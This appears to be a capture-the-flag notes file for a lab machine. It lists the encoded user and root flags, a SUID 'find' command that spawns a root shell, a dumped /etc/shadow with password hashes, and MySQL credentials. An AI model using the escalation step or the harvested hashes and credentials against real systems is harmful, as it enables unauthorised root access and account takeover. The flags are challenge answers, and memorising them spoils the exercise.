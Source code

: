 # Confidential Files

## Flags

Note: must be encoded

## User.txt (*found in c0ldd's home directory *)

Flag: `RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==`

## Root.txt (*found in /root*)

Steps:

`find` binary has `SUID` bit set and can spawn shell using `-exec` flag.

Note: `./` indicates that the binary is ran at the directory which the binary reside. (*in this case: /usr/bin*)

```bash
    command: ./find . -exec /bin/sh -p \; 
```

Flag: `wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=`

## /etc/shadow

```bash

root:$6$VMnvWAfh$Yg04FhiScJ8Pv3ET6Ys.4G.BdLC0HyyxcDB1jVa28F20gdz4zI.GyrQSg8elF4nx3yH1g3ZKA/uvO8Fqll.T70:18939:0:99999:7:::
daemon:*:18484:0:99999:7:::
bin:*:18484:0:99999:7:::
sys:*:18484:0:99999:7:::
sync:*:18484:0:99999:7:::
games:*:18484:0:99999:7:::
man:*:18484:0:99999:7:::
lp:*:18484:0:99999:7:::
mail:*:18484:0:99999:7:::
news:*:18484:0:99999:7:::
uucp:*:18484:0:99999:7:::
proxy:*:18484:0:99999:7:::
www-data:*:18484:0:99999:7:::
backup:*:18484:0:99999:7:::
list:*:18484:0:99999:7:::
irc:*:18484:0:99999:7:::
gnats:*:18484:0:99999:7:::
nobody:*:18484:0:99999:7:::
systemd-timesync:*:18484:0:99999:7:::
systemd-network:*:18484:0:99999:7:::
systemd-resolve:*:18484:0:99999:7:::
systemd-bus-proxy:*:18484:0:99999:7:::
syslog:*:18484:0:99999:7:::
_apt:*:18484:0:99999:7:::
lxd:*:18529:0:99999:7:::
messagebus:*:18529:0:99999:7:::
uuidd:*:18529:0:99999:7:::
dnsmasq:*:18529:0:99999:7:::
c0ldd:$6$AnciUfDx$Y9lDZThc6/Q/rWMajprHD54ynCLBmy8swBujZO.CG6b7j7YZiR/RIrdhzn2euH1A9r2jJE2U0bbLarUFdwSI40:18529:0:99999:7:::
sshd:*:18529:0:99999:7:::
mysql:!:18529:0:99999:7:::

```

## MySQL Creds

`c0ldd:cybersecurity`
